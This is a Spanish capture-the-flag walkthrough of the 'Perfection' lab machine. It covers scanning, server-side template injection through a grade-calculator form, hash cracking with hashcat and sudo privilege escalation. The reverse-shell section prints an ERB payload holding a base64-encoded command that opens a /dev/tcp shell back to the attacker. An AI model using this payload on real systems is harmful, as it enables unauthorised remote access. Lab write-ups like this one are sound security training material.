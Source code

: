 ```yaml
---
tags:
  - Perfection
aliases: []
---
```

# Perfection
## Etapa de escaneo
Se realizo un escaneo básico al sistema para detectar rápidamente lo necesario

![imagen](Anexos/escaneo1.png)

Observamos que tenemos el puerto 80 y 22 abiertos, intuimos que la maquina sera entonces todo desde web.

---
## Etapa de exploración web
Tras haber investigado un poco, hay una sección con varios inputs que permiten enviar datos al servidor con un pequeño backend que realiza cálculos de calificaciones ponderadas.

![](Anexos/calculate.png)

con burpsuite podemos capturar los datos enviados para ver su comportamiento, de aquí decidimos investigar más por Internet, logrando encontrar unos métodos de entrada de datos para la tabla en cuestión: ![[Research#^d1dd5b]]
lo que se puede intentar hacer un ping desde el servidor a una maquina receptora, por lo que decidimos hacerlo con: ![[Research#^a79f05]]
![](Anexos/pingBurp.png)

Una ves que comprobamos que hay ping, podemos proceder a realizar una conexión remota.

---
## Etapa de reverShell
Debido a que no podemos pedirle al sistema de forma "directa" que nos de una conexión remota desde el input, deberemos codearlo a "url" para que pueda ingresar sin problemas y seguidamente decodearse en el sistema, a continuación muestro el codeo de mi revershell con la herramienta [[Maquinas/Perfection/Research|hURL]]:

![](Anexos/codingURL.png)

Una ves que tengamos todo listo, solo preparamos el ataque completo para agregarlo al campo en burpsuite:

~~~
<% system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx | base64 -d | bash"); %>
~~~

![](Anexos/intrusion.png)

y listo, estamos dentro.

---
## Etapa de exploración del sistema
Tras haber penetrado al sistema de manera superficial, ahora deberemos buscar la forma de escalar privilegios, pero antes, notamos algunas cosillas dentro de los directorios algo interesantes, como hash's:

![](Anexos/hash.png)

Esto claramente nos da indicios de poder acceder al sistema con un usuario, por lo que deberemos deshashear el hash.

---
## Etapa de deshasheo
tenemos el hash, pero ahora que?
deberemos buscar la forma de decodear ese hash, y la forma más sencilla sera con hashcat, crearemos un archivo el cual contendra el hash encontrado en el sistema:

![](Anexos/docHash.png)

y con este archivo, usar hashcat:

![](Anexos/hashcat.png)

con esto obtendremos la contraseña en texto plano y lograr acceder al sistema con un usuario.

![](Anexos/ssh.png)

---
## Etapa de escalada de privilegios
Revisamos si podemos acceder con la contraseña del usuario normal al usuario privilegiado, usando sudo -l

![](Anexos/escalado.png)

y listo, tenemos acceso al usuario root.